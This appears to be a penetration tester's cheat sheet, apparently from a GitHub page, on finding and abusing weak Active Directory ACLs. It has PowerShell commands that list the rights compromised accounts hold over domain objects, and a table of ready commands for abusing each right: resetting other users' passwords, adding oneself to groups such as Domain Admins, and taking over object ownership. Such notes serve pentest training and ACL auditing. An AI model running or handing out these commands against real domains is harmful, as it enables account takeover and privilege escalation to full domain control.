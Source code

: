 ```powershell

# AD Module
# Need to operate backwards - Search a specific object and check if our user, 
# a compromised user, compromised machine, or compromised group has control over it.
# Enumerate the users, groups and machines you have compromised and gather their Names and SIDs 
Get-ADPrincipalGroupMembership -Identity <username> # - Run this against each group to find nested memberships

# Get distinguished names for target groups, users and computers
Get-ADUser -Identity <username> | select distinguishedname
Get-ADGroup -Identity <group name> | select distinguishedname
Get-ADComputer -Identity <computer name> | select distinguishedname

# For each target group, user, and machine, run the following command:
(Get-Acl -Path 'AD:\<distinguished name>').Access | ?{$_.IdentityReference -match '<compromised {user|group|machine}>'}
# e.g.
(Get-Acl -Path 'AD:\CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'managers'}
# Look for exploitable ACLs that have a compromised IdentityReference
# May need to create a new drive to search from when searching a trusted forest:
New-PSDrive -Name AD2 -PSProvider ActiveDirectory -Server '<trusted.forest>' -root "//RootDSE/"
(Get-Acl -Path 'AD:\<distinguished name>').Access | ?{$_.IdentityReference -match '<compromised {user|group|machine}>'}

# Exploit example: Generic write over another group
# Powerview
Add-DomainGroupMember -Members <currentUser> -Identity <targetGroup>
```

**ACL Exploitation:**  
<https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericwrite-on-user>  
GenericAll - full rights to the object (add users to a group or reset user's password)  
GenericWrite - update object's attributes (i.e logon script)  
WriteOwner - change object owner to attacker controlled user take over the object  
WriteDACL - modify object's ACEs and give attacker full control right over the object  
AllExtendedRights - ability to add user to a group or reset password  
ForceChangePassword - ability to change user's password  
Self (Self-Membership) - ability to add yourself to a group  

| ACL | Object Type | Abuse |
| --- | --- | --- |
| GenericAll | User | Change the users password: `net user <username> <new password> /domain` With Powerview: `$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force; Set-DomainUserPassword <-Domain domain.local> -Identity andy -AccountPassword $UserPassword` |
| GenericAll | Group | Add yourself to the group: `net group "<group name>" <username> /add /domain` - Can also do with PowerView or ADModule. With Powerview: `Add-DomainGroupMember -Domain <domain.local> -Identity 'Domain Admins' -Members 'harmj0y'` |
| GenricAll/GenericWrite | Computer | See "Resource based constrained delegation" in this file |
| WriteProperty | Group | Add yourself to the group: `net group "<group name>" <username> /add /domain` - Can also do with PowerView or ADModule |
| Self | Group | Add yourself to the group: `net group "<group name>" <username> /add /domain` - Can also do with PowerView or ADModule |
| WriteProperty (Self-Membership) | Group | Add yourself to the group: `net group "<group name>" <username> /add /domain` - Can also do with PowerView or ADModule |
| ForceChangePassword (ExtendedRight) | User | Reset user's password (powerview): `Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString '<password>' -AsPlainText -Force) -Verbose` |
| WriteOwner | Group | Change group owner (powerview): `Set-DomainObjectOwner -Identity <group SID> -OwnerIdentity "<username>" -Verbose` |
| GenericWrite | User | [Write a specific object attached to a user](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericwrite-on-user)  |
